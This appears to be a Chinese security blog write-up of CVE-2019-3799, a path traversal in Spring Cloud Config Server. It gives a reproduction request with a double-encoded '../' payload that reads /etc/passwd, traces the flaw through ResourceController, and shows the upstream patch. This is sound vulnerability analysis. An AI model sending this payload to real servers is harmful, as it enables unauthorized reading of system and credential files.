 # 漏洞公告

https://pivotal.io/security/cve-2019-3799

[![img](Spring Cloud Config Server 路径穿越与任意文件读取漏洞/20190417224755-c8ec71d6-611f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190417224755-c8ec71d6-611f-1.png)

# 漏洞复现

环境搭建： https://github.com/spring-cloud/spring-cloud-config#quick-start

```
GET /foo/default/master/..%252F..%252F..%252F..%252Fetc%252fpasswd HTTP/1.1
Host: localhost:8888
```

[![img](Spring Cloud Config Server 路径穿越与任意文件读取漏洞/20190417224820-d7bb29b4-611f-1.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20190417224820-d7bb29b4-611f-1.gif)

# 漏洞分析

Spring Cloud Config是Spirng Cloud下用于分布式配置管理的组件，分为`Config-Server`和`Config-Client`两个角色。 `Config-Server`负责集中存储/管理配置文件，`Config-Client`则可以从`Config-Server`提供的HTTP接口获取配置文件使用。2019年4月16日，Pivotal官方发布安全通告，Spring Cloud Config Server 部分版本存在目录遍历漏洞，据此可以获取Server端服务器文件。

根据[官方文档](https://cloud.spring.io/spring-cloud-static/spring-cloud.html#_serving_plain_text)，可以通过如下请求`GET /{name}/{profile}/{label}/{path}` 来获取配置文件，`name`，`profile`和`label`的含义与常规环境下的endpoint相同，而`path`是指文件名。以官方示例为环境，我们请求 https://github.com/spring-cloud-samples/config-repo/blob/master/test.json 这个文件并以文本形式返回 ，则我们需要向`Spring Cloud Config Server`发出如下请求：

```
GET http://127.0.0.1:8888/foo/label/master/test.json
```

[![img](Spring Cloud Config Server 路径穿越与任意文件读取漏洞/20190417224828-dc743d10-611f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190417224828-dc743d10-611f-1.png)

根据请求格式可以在 `org/springframework/cloud/config/server/resource/ResourceController.java:54` 中找到对应的处理 `@RequestMapping("/{name}/{profile}/{label}/**")`：

[![img](Spring Cloud Config Server 路径穿越与任意文件读取漏洞/20190417224833-dfb766c8-611f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190417224833-dfb766c8-611f-1.png)

其中`path`值即为payload:`..%2F..%2F..%2F..%2Fetc%2fpasswd`

跟入`retrieve` 在`org/springframework/cloud/config/server/resource/ResourceController.java:104` ：

```
synchronized String retrieve(ServletWebRequest request, String name, String profile,
            String label, String path, boolean resolvePlaceholders) throws IOException {
        name = resolveName(name);
        label = resolveLabel(label);
        Resource resource = this.resourceRepository.findOne(name, profile, label, path);
        ...
    }
```

这里会根据前面所传条件获取到resource。文档中提到`only the first one to match is returned`，所以继续跟入`findOne`:

[![img](Spring Cloud Config Server 路径穿越与任意文件读取漏洞/20190417224838-e2d0b1ac-611f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190417224838-e2d0b1ac-611f-1.png)

可以看到这里`locations`的值为`file:/tmp/config-repo-7168113927339570935/`，这是`Config-Server`从后端拉取到配置文件时临时存放，正常情况下将会在该文件夹下进行文件的查找，比如`test.json`：

[![img](Spring Cloud Config Server 路径穿越与任意文件读取漏洞/20190417224844-e6079124-611f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190417224844-e6079124-611f-1.png)

不过我们传入的却是`..%2F..%2F..%2F..%2Fetc%2fpasswd`，最终拼接出来的文件url即为：

[![img](Spring Cloud Config Server 路径穿越与任意文件读取漏洞/20190417224850-e97ab386-611f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190417224850-e97ab386-611f-1.png)

返回后获取到的`resource`即为`/etc/passwd`，调用`StreamUtils.copyToString(is, Charset.forName("UTF-8")`读取到文件内容：

[![img](Spring Cloud Config Server 路径穿越与任意文件读取漏洞/20190417224854-ebf9be0e-611f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190417224854-ebf9be0e-611f-1.png)

# 漏洞补丁

https://github.com/spring-cloud/spring-cloud-config/commit/3632fc6f64e567286c42c5a2f1b8142bfde505c2

主要在获取到local后进行了判断：

```
if (!isInvalidPath(local) && !isInvalidEncodedPath(local)) {
    Resource file = this.resourceLoader.getResource(location)
            .createRelative(local);
    if (file.exists() && file.isReadable()) {
        return file;
    }
}
```

`isInvalidPath`用于检测其中是否含有`:/`、`..`、`WEB-INF`等关键字样，`isInvalidEncodedPath`中在进行编解码后仍是调用`isInvalidPath`进行检测。

​                